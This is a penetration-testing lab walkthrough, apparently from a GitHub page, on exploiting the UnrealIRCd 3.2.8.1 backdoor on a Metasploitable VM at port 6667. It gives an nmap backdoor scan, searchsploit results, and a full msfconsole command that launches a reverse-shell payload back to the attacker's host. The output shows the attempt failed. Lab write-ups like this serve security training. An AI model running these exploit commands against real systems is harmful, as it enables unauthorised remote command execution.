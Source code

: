 ### IRC (PORT 6667,6697) - DENIED / MISSING

This port is used for Internet Relay Chat Protocol, it's exploitable for backdoor by using unrealirc-backdoor from metasploit.

**Nmap script**
````
$ nmap -sV -script irc-unrealircd-backdoor -p 6667
````

*Port 6667 // scan results*
````
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
| irc-unrealircd-backdoor: Looks like trojaned version of unrealircd.
|_                         See http://seclists.org/fulldisclosure/2010/Jun/277
Service Info: Host: irc.Metasploitable.LAN
````

**Searchsploit**
````
$ searchsploit unreal ircd 3.2.8.1
````

````
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
                                                               |                       
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)   | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow        | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                 | linux/remote/13853.pl
--------------------------------------------------------------- ---------------------------------
````

**Metasploitable**
````
$ msfconsole -q -x 'use exploit/unix/irc/unreal_ircd_3281_backdoor;set rhosts 192.168.56.101;set payload cmd/unix/reverse;set lhost 192.168.1.<sub>;set lport 1234;exploit'
````

Tested - denied.
````
[*] Started reverse TCP double handler on 192.168.1.17:1234 
[*] 192.168.56.101:6667 - Connected to 192.168.56.101:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.56.101:6667 - Sending backdoor command...
[*] Exploit completed, but no session was created.
````

